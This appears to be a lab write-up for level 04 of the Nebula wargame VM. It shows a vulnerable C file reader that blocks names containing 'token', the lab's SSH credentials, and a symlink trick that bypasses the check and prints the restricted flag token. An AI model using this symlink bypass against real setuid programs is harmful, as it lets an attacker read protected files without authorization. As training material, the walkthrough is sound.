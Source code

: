 ```yaml
---
author: Josh Genao
Date: 2023-01-02
Category:
Tags:
---
```


# Level-04
## Description
This level requires you to read the **token** file, but the code restricts the files that can be read. Find a way to bypass it :)

```
#include <stdlib.h>
#include <unistd.h>
#include <string.h>
#include <sys/types.h>
#include <stdio.h>
#include <fcntl.h>

int main(int argc, char **argv, char **envp)
{
  char buf[1024];
  int fd, rc;

  if(argc == 1) {
      printf("%s [file to read]\n", argv[0]);
      exit(EXIT_FAILURE);
  }

  if(strstr(argv[1], "token") != NULL) {
      printf("You may not access '%s'\n", argv[1]);
      exit(EXIT_FAILURE);
  }

  fd = open(argv[1], O_RDONLY);
  if(fd == -1) {
      err(EXIT_FAILURE, "Unable to open %s", argv[1]);
  }

  rc = read(fd, buf, sizeof(buf));
  
  if(rc == -1) {
      err(EXIT_FAILURE, "Unable to read fd %d", fd);
  }

  write(1, buf, rc);
}
```

## Setup
  SSH into the Nebula VM using the following credentials:

```
username: level04
password: level04
```
## Summary
The program reads in and outputs the contents of whatever file is passed into the first argument. The program restricts the `token` file located in the `/home/flag04` by comparing the argument with the substring "token" .

We can bypass this check by doing a symlink attack in which will allow us to get permissions to the `/home/flag04/token` file. 

This can be done doing the following:

```
level04@nebula:~$ ln -s /home/flag04/token exploit
level04@nebula:~$ cd /home/flag04/
level04@nebula:/home/flag04$ ./flag04 /home/level04/exploit
06508b5e-8909-4f38-b630-fdb148a848a2
```
Running the flag04 application gives us a string of characters. This can be used as the password for flag04 user.
## Flag
![](../imgs/Pasted%20image%2020230102220317.png)
## References
[^1]: https://www.exploit-db.com/papers/13199
